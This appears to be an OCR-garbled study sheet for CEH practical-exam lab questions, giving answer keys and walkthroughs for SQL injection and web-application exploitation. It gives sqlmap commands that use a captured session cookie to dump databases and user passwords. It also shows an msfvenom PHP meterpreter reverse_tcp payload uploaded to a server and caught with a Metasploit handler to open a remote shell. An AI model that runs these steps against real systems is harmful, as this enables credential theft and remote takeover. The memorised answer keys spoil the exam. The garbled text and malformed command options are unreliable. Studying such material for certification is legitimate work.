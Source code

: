 ===================================================================================================================

12.Perform an SQL injecton atack on your target web applicaton cinema.cehorg.com and extract the password of
a user Sarah. You have already registered on the website with credentals Karen/computer.
Answer: abc123
1. now in parrot os, open frefox and login into the website given and details.
2. Go to profle and and right cleck and inspect and console type “document.cookie” you will get one value.
3. Open the terminal and type the below commands to get the password of other user.
4. sqlmap -u "htp://www.moviescope.com/viewprofle.aspx?id=1" --cookie="mscope=1jwuydl=;" –-dbs
5. sqlmap -u "htp://www.moviescope.com/viewprofle.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moveiscope – -tables
6. sqlmap -u "htp://www.moviescope.com/viewprofle.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moviescope -T user-Login – -dump
7. You will get all the Useraname and Passwords of the website.

===================================================================================================================

13.Exploit the web applicaton available at www.cehorg.com and enter the fag's value at the page with page_id=84.
Answer:
1. nmap -sV --script=htp-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql
injecton using sqlmap.
3. Now open the burp and check the input parameters and intercept on then type some as “1 OR ANY TEXT”
you get some value on burp copy that and create the txt fle.(1 OR 1=1 #)
4. sqlmap -r <txt fle from burpsuite> --dbs
5. sqlmap -r <txt fle from burpsuite> -D <database name> --tables
6. sqlmap -r <txt fle from burpsuite> -D <database name> -T <table name> --columns
7. sqlmap -r <txt fle from burpsuite> -D <database name> -T <table name> --dump-all
8. then login and do the url parameter change page_id=1 to page_id=84

===================================================================================================================

14.Perform vulnerability research and exploit the web applicaton training.cehorg.com, available at 192.168.0.64.
Locate the Flag.txt fle and enter its content as the answer.
Answer: p74NSHXz
1. Scan the target with Zapp to fnd the vulnerability. Then exploit it. It can be fle upload/ File inclusion
vulnerability on DVWA.
2. msfconsole in one tab next in new tab
3. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php
4. >use exploit/mult/handler or use 30
5. >set payload php/meterpreter/reverse_tcp
6. Set LHOST ipadd
7. Upload a fle you created as exploit.php
8. Open terminal and type run once you get url type url in brower you get meterpreter session then type ls
get the fles.
